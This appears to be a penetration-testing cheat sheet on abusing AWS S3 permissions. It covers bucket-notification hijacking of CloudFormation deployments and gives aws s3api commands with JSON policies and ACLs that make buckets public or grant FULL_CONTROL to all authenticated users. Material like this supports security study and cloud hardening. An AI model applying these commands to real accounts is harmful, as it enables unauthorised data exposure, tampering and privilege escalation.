

## s3:PutBucketNotification

With this privilege, attacker might be able to hijack resources and escalate privileges inside a S3 bucket.

Example,
An attacker with those permissions over a CloudFormation bucket called "cf-templates-nohnwfax6a6i-us-east-1" will be able to hijack the deployment. The access can be given with the following policy:

```
{
    "Version":"2012-10-17",
    "Statement":[
        {
            "Effect":"Allow",
            "Action":[
                "s3:PutBucketNotification",
                "s3:GetBucketNotification",
                "s3:PutObject",
                "s3:GetObject"],
            "Resource":[
                "arn:aws:s3:::cf-templates-*\/*",
                "arn:aws:s3:::cf-templates-*"]
        },
        {
            "Effect":"Allow",
            "Action":"s3:ListAllMyBuckets",
            "Resource":"*"
        }]
    }
```

And the hijack is possible because there is a small time window from the moment the template is uploaded to the bucket to the moment the template is deployed. An attacker might just create a lambda function in his account that will trigger when a bucket notification is sent, and hijacks the content of that bucket.


The `PACU` tool can be used to automate this process.

## s3:PutObject | s3:GetObject

With this privilege, attackers can download and upload objects/contents from the S3 Bucket.

- An attacker with **read access** to them might find sensitive information and data on them.
- An attacker with **write access** to them could modify the data to abuse some service and try to escalate privileges.

## s3:PutBucketPolicy

With this privilege, attacker can grant himself permissions over the S3 Buckets allowing the attacker to him to read, write, modify, delete and expose buckets. But the attacker needs to be from the same account, if not the error `The specified method is not allowed will trigger`

- `aws s3api put-bucket-policy --policy file:///root/policy.json --bucket <bucket-name>`

```
##JSON policy example
{
  "Id": "Policy1568185116930",
  "Version": "2012-10-17",
  "Statement": [
  {
      "Sid": "Stmt1568184932403",
      "Action": [
        "s3:ListBucket"
      ],
      "Effect": "Allow",
      "Resource": "arn:aws:s3:::welcome",
      "Principal": "*"
  },
  {
    "Sid": "Stmt1568185007451",
    "Action": [
      "s3:GetObject"
    ],
    "Effect": "Allow",
    "Resource": "arn:aws:s3:::welcome/*",
    "Principal": "*"
  }
  ]
}
```

## s3:GetBucketAcl | s3:PutBucketAcl

With this prvilege, An attacker can grant him more access over specific buckets.

- `aws s3api get-bucket-acl --bucket <bucket-name>`
- `aws s3api put-bucket-acl --bucket <bucket-name> --access-control-policy file://acl.json`

```
##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
  "Owner": {
    "DisplayName": "<DisplayName>",
    "ID": "<ID>"
  },
  "Grants": [
  {
    "Grantee": {
      "Type": "Group",
      "URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
    },
  "Permission": "FULL_CONTROL"
  }
  ]
}
```

## s3:GetObjectAcl | s3:PutObjectAcl

With this privilege, An attacker can grant him more access over a specific objects inside the S3 Buckets.

- `aws s3api get-object-acl --bucket <bucekt-name> --key flag`
- `aws s3api put-object-acl --bucket <bucket-name> --key flag --access-control-policy file://objacl.json`

```
##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
  "Owner": {
    "DisplayName": "<DisplayName>",
    "ID": "<ID>"
  },
  "Grants": [
  {
    "Grantee": {
      "Type": "Group",
      "URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
    },
  "Permission": "FULL_CONTROL"
  }
  ]
}
```
